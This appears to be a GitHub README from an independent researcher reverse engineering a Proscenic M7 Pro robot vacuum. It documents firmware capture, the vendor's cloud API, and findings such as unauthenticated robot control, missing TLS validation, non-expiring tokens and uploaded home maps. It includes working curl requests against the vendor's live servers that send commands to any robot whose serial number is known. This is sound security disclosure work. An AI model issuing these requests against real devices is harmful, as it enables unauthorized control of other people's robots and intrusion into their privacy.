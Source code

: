 # Proscenic M7 Pro - reverse engineering

> This is a WIP.

## Firmware
Firmware update was acquired by tcpdumping the robot's traffic.
The URL was `http://47.254.154.181/robotDrivers/1593772189366`.

This is good, so we can exploit the firmware update mechanism to install our own software.
But up to now, I don't know, how the firmware update mechanism works.

You can find the latest firmware (as of 06.12.2020) in `./firmware.bin`.

[binwalk](https://github.com/ReFirmLabs/binwalk) is used for decompressiong the firmware: `binwalk -eM firmware.bin`.

## App
Logging in
```bash
LOGINUSER=iot@example.com
PASSWORD=very-secure
curl -v -k -X POST -H "os: i" -H "Content-Type: application/json" -H "c: 338" -H "lan: en" -H "Host: mobile.proscenic.com.de:443" -H "User-Agent: ProscenicHome/1.7.8 (iPhone; iOS 14.2.1; Scale/3.00)" -H "v: 1.7.8" -d "{\"state\":\"欧洲\",\"countryCode\":\"49\",\"appVer\":\"1.7.8\",\"type\":\"2\",\"os\":\"IOS\",\"password\":\"$(echo -n $PASSWORD | md5sum)\",\"registrationId\":\"13165ffa4eb156ac484\",\"language\":\"EN\",\"username\":\"$LOGINUSER\",\"pwd\":\"$PASSWORD\"}" "https://mobile.proscenic.com.de/user/login"
```
response
```json
{
  "code": 0,
  "msg": "success",
  "data": {
    "token": "<redacted>",
    "uid": "<redacted>",
    "equipcount": 0,
    "nickname": null,
    "recieveMsg": false,
    "countryCode": "49",
    "homeId": null
  }
}
```

Get list of devices:
> **Findind #1**: No login (only username) required
```bash
curl "https://mobile.proscenic.com.de/user/getEquips/$LOGINUSER"  -d "username=$LOGINUSER"
```
response
```json
"content": [
      {
        "name": "M7 Pro",
        "code": "M7_PRO",
        "typeName": "CleanRobot",
        "model": "811_LDS",
        "sn": "<redacted>",
        "deviceId": null,
        "status": true,
        "imgUrl": "http://mobile.proscenic.com.de/images/M7_PRO.png",
        "homeId": null,
        "shared": false,
        "jump": "M7_PRO",
        "ctrlversion": null,
        "enabled": true,
        "scMac": null,
        "scSV": null,
        "faqUrl": "https://www.proscenic.com/support/faq-f0460-l9999.html",
        "cloud": 0,
        "type": "CleanRobot"
      }
]
```

**Finding 2**: The serial number retrieved from above can be used to send arbitrary commands:
```java
    @FormUrlEncoded
    @POST("/instructions/{sn}/{cmdCode}")
    Observable<Result> control(@Field("username") String str, @Path("sn") String str2, @Path("cmdCode") int i, @Field("ctrlCode") String str3);
```
E.g.:
```bash
curl -X POST  -d "charge=start" "https://mobile.proscenic.com.de/instructions/$SN/21012?username=$LOGINUSER"
```

Communication with the robot is primarily relayed through a cloud server.

For you convenience, I've included `./getSockAddr.sh`. Read it and then provide it with `username password`.

## The vacuum robot software
**Finding 3**: The vacuum robot does not perform TLS validation.
Using [sslsplit](https://github.com/droe/sslsplit) we can see, what the robot is talking with its manufacturer.

**Finding 4**: This robot is spying on you: It uploads a map of your home. As can be seen using sslsplit:
```
POST /cleanPack/uploadEvents HTTP/1.1
Host: 47.254.140.182
Accept: */*
Cookie: cookies=<redacted>
Content-Length: 1593
Content-Type: application/x-www-form-urlencoded
Expect: 100-continue

HTTP/1.1 100 Continue

sn=LSLDSM7PRO20510667&ts=348470&data={"infoType":20002,"data":{"SN":"LSLDSM7PRO20510667","mapId":1607215533,"autoAreaId":0,"pathId":1607237159,"width":109,"height":98,"resolution":0.05,"x_min":-4.93,"y_min":-2.83,"lz4_len":935,"area":[],"map":<redacted>
```

**Finding 5**: The app reveals the crypto token plaintext while communicating with the robot through the gateway.
```
{"data":{"token":"<redacted>","sn":"<redacted>"},"infoType":70001}#	#
```
this is sent to the IP and port retrieved by `getSockAddr`.

**Finding 6**: Old tokens (fetched with the script) don't expire. Even if the app only allows for one simultanous login.

## More findings
**Fining 7**: Sending instructions to a robot does not require any authentication. All you need is the serial number:
```bash
curl -k -X POST  -H "Content-Type: application/x-www-form-urlencoded" -H "Host: mobile.proscenic.com.de:443" -d "pauseOrContinue=pause" "https://mobile.proscenic.com.de/instructions/<serialNumber>/21017?username="
```

**TLDR**: Don't buy this crap.
